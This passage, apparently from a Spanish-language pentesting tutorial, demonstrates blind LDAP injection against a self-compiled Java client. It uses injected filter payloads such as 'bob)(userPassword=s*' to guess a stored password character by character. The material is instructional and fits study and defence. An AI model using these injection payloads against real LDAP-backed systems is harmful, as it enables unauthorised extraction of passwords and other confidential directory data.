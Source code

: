 ```
javac -d classes LDAPinfo.java
```

Y luego se puede ejecutar con:

```
java -cp classes LDAPinfo bob
```
![[Pasted image 20240311161445.png]]
#### Ejemplo de inyección LDAP ciega <a href="#blind-ldap-injection-example" id="blind-ldap-injection-example"></a>

El cliente que hemos compilado es vulnerable a la inyección de LDAP ciego. Vamos a tratar de usarlo de una manera lifitimate primero

```
java -cp classes LDAPinfo bob # found
java -cp classes LDAPinfo notbob # not found
```

A pesar de que la aplicación imprime solo el número de teléfono, puede ser útil para extraer más datos. Echa un vistazo al ejemplo:

```
java -cp classes LDAPinfo "bob)(userPassword=a*" # nothing found
```

Vamos a enumerar más letras:

```
java -cp classes LDAPinfo "bob)(userPassword=b*" # keep going
```

Al encontrarnos con la letra 's', podemos ver que se muestra el número de teléfono

```
java -cp classes LDAPinfo "bob)(userPassword=s*" # found
# it means that the first letter of the password is "s"
```

Podemos ir más allá hasta encontrar la contraseña completa

```
java -cp classes LDAPinfo "bob)(userPassword=secret"  
```

> Un escenario de explotación de este tipo podría ser perfecto para la extracción de información confidencial Aunque estábamos usando una interfaz LDAP de línea de comandos, tenga en cuenta que la aplicación web funcionaría con LDAP de la misma manera

\
